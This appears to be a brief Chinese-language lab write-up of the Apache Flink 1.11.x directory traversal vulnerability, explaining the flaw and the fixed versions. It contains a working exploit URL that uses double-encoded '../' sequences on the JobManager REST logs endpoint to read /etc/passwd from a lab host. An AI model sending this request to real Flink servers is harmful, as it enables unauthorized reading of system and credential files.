


# Apache Flink 目录穿越漏洞

> 漏洞说明

​	Apache Flink 1.11.0 中引入的一项更改（也在 1.11.1 和 1.11.2 中发布）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。访问仅限于 JobManager 进程可访问的文件。如果 Flink 实例暴露，所有用户都应升级到 Flink 1.11.3 或 1.12.0。

> 前提条件

> 利用工具

> 漏洞复现

搭建靶场，访问http://192.168.40.77:8081/可以看到Apache Flink主页

访问http://192.168.40.77:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

成功读取到/etc/passwd文件

